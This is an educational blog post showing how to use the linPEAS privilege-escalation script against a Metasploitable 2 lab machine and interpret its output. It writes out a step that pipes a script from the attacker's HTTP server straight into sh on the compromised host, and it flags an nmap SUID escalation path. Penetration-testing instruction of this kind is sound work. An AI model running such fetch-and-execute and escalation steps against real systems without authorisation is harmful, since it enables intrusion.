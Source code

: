 ```yaml
---
title:  "Day 27 - linPEAS - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool linPEAS and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is linPEAS?
<br>
4 . Why use linPEAS?
<br>
5 . How to use linPEAS?
<br>
6 . Summary

---

# Moving forward in this series I will start introducing tools outside of Kali Linux or Parrot OS, this is one of many to come!


## This post is designed to introduce you to Carlos Polop's tool linPEAS.

![](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/images/linpeas.png)

# <span style="color:red">***Disclaimer***</span>: **Please only use linPEAS for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **twenty-seventh** blog post of 100 tools in 100 days.<br> 

Find **linPEAS** [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

Find **HackTricks** and the linPEAS guide [here](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist).


PEASS (Privilege Escalation Awesome Script Suite) is a resource developed and maintained by Carlos Polop. 

If you would like to read my blog about Carlos Polop's book HackTricks please go [here](https://matthewomccorkle.github.io/day_010_hacktricks/).

Below are links to his platforms:<br>
[PEASS](https://github.com/carlospolop/PEASS-ng)<br>
[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)<br>
[LinkedIn](https://www.linkedin.com/in/carlos-polop-martin)<br>
[GitHub](https://github.com/carlospolop)<br>
[Twitter](https://twitter.com/carlospolopm)<br>
[Discord](https://discord.gg/hRep4RUj7f)<br>

---

### 2. **My Setup**

For running the linPEAS tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my vulnerable host, I am using the Metasploitable 2 instance running in a VMWare Workstation 16 Player virtualized environment. 

---

### 3. **What is linPEAS?**

linPEAS is an awesome script developed by Carlos Polop that finds privilege escalation points in Linux. He also developed winPEAS and macPEAS for Windows and Macintosh respectfully.


---

### 4. **Why use linPEAS?**

Imagine you are hacking one of the Linux machines on Hack The Box and you finally are logged in as a user. You obtained the user flag, but still need to get the root flag. Since as a user you likely have some privileges you can use linPEAS to determine how you can escalate your privileges to root. 

Everyone that has done Hack The Box knows that the Root flag is always the one that gives the attacker the most thrill of achieving. 


---

### 5. **How to use linPEAS?**

For this scenario, the following are assumed:

1 . I have gained access to a vulnerable Linux device as a non-root user. I will have my access through SSH.

2 . I have enough permissions to run a script as the user on the Linux device.

Please check out the different ways to get the linPEAS script onto the victim device [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS#quick-start).

    Step 1:
    I am going to host the linPEAS script on my attack box using a Python3 http server.

    python3 -m http.server 8989

<br>

    Step 2:
    In my SSH shell, I am going to use curl to grab the script from my HTTP server.

    curl <IP_ADDRESS OF KALI>:8989/linpeas.sh | sh

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas1.PNG)

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas4.PNG)

    Step 3:
    As linPEAS runs, you will have a nice colorful output 
    on your terminal (if your terminal supports color). 

    We are looking for privilege escalation vectors that are 95% likely to 
    work which will be highlighted yellow with red text.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas2.PNG)

<br>

    Step 4:
    As I scrolled through my linPEAS output I found that nmap may offer a 
    95% privilege escalation vector. 

    Thanks to Carlos you can see how to escalate your privileges by 
    referring to the link in each section of linPEAS output.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas3.PNG)

[Link to SUDO and SUID @ HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

I created this user 'jimmy' just for this blog and gave them no additional permissions, but as we can see there may be an escalation point located at /usr/bin/nmap.

Since linPEAS found a possible bin entry point I am going to head to GTFO bins and see what it says about escalation from /usr/bin/nmap [here](https://gtfobins.github.io/#nmap).

As we can see in the below screenshot, nmap likely offers many opprtunities to escalate our privileges from jimmy to a SUDO user or root. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas5.PNG)


This is as far as I am going to take the blog in terms of using linPEAS. You could research further through GTFOBins and the HackTricks book to find out how to exploit the nmap binary located at /usr/bin/nmap.

### 6. **Summary**

linPEAS is a Linux privilege escalation suite developed by Carlos Polop, the same creator of HackTricks which I wrote about on day 10 [here](https://matthewomccorkle.github.io/day_010_hacktricks/).

linPEAS is part of a suite of escalation tools called the PEASS (Privilege Escalation Awesome Script Suite), which features escalation scripts for Windows and Macintosh all developed by Carlos. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
